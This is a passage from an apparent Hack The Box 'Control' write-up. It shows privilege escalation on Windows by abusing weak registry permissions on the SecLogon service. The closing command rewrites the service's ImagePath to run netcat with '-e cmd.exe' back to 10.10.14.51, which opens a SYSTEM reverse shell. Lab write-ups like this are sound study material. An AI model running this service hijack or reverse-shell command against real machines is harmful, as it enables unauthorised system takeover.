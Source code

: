 To successfully get RCE as SYSTEM I need to find a service that matches the following criterias:
- I can edit the registry entries with user Hector
- I need to be able to start the service with user Hector
- Is already configured to run as LocalSystem

I can't edit the service with `sc config`, probably because some permissions have been changed on the machine but I can change the same settings using `reg add`. After looking for a long time, I found the `SecLogon` service which satifies the conditions stated above.

```
C:\Users\Hector\Documents>sc query seclogon
sc query seclogon

SERVICE_NAME: seclogon 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

```
C:\Users\Hector\Documents>reg query HKLM\System\CurrentControlSet\Services\seclogon

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon
    Description    REG_SZ    @%SystemRoot%\system32\seclogon.dll,-7000
    DisplayName    REG_SZ    @%SystemRoot%\system32\seclogon.dll,-7001
    ErrorControl    REG_DWORD    0x1
    FailureActions    REG_BINARY    805101000000000000000000030000001400000001000000C0D4010001000000E09304000000000000000000
    ImagePath    REG_EXPAND_SZ    %windir%\system32\svchost.exe -k netsvcs -p
    ObjectName    REG_SZ    LocalSystem
    RequiredPrivileges    REG_MULTI_SZ    SeTcbPrivilege\0SeRestorePrivilege\0SeBackupPrivilege\0SeAssignPrimaryTokenPrivilege\0SeIncreaseQuotaPrivilege\0SeImpersonatePrivilege
    Start    REG_DWORD    0x3
    Type    REG_DWORD    0x20
```

I'll change the ImagePath of the service so it runs my netcat as SYSTEM.

```
C:\Users\Hector\Documents>reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "c:\windows\system32\spool\drivers\color\nc.exe 10.10.14.51 8888 -e cmd.exe" /f

The operation completed successfully.

C:\Users\Hector\Documents>sc start seclogon
```

![](/assets/images/htb-writeup-control/root.png)
